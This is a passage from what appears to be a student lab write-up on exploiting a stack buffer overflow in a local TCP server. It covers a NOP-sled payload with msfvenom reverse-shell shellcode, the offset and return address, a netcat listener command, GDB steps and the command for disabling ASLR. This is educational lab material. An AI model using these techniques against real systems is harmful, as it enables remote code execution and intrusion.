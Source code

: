 Run:
python3 exploit.py

Details:

Payload Structure: 50 NOPs, shellcode, padding to offset 120, and return address.
Error Encountered: Connection refused in exploitShellCode.py.
Cause: Script incorrectly connected to port 4444 instead of 40000.
Resolution: Updated script to target port 40000 and used a separate listener.



5. Set Up the Reverse Shell Listener
Catch the reverse shell on port 4444.
Command:
nc -lvp 4444

Details:

Run in a separate terminal before executing the exploit.

6. Execute the Attack
Commands:
# Terminal 1: Run server in GDB
gdb ./tcpserver-basic
(gdb) run 40000
# Terminal 2: Start listener
nc -lvp 4444
# Terminal 3: Run exploit
python3 exploit.py

Details:

GDB confirmed RIP overwrite, and the listener received a /bin/sh prompt.
Error Encountered: No shell initially.
Cause: Incorrect return address or premature connection closure.
Resolution: Adjusted return address to 0x7fffffffde14 and ensured recv() in script.



Deliverables for Part 1

Shellcode:
Generated by msfvenom (see shellcode.py above).
Executes a reverse TCP shell to 127.0.0.1:4444.


Exploit Script:
exploit.py (see above).
Sends payload to port 40000, triggering shellcode execution.


Write-up:
ASLR: Disabled using echo 0 > /proc/sys/kernel/randomize_va_space.
Shellcode Generation: Used msfvenom on Kali, transferred to Fedora.
Offset: Determined offset 120 using 2000-byte pattern after resolving SIGPIPE.
Buffer Address: Found at 0x7fffffffde00 via GDB stack inspection.
Payload Crafting: Combined NOP sled, shellcode, padding, and return address.
Execution: Successfully spawned a shell on port 4444.
Screenshots:
GDB showing RIP overwrite (e.g., 0x6141316141306141).
Kali terminal with msf-pattern_offset output.
Fedora terminal with nc displaying shell prompt.
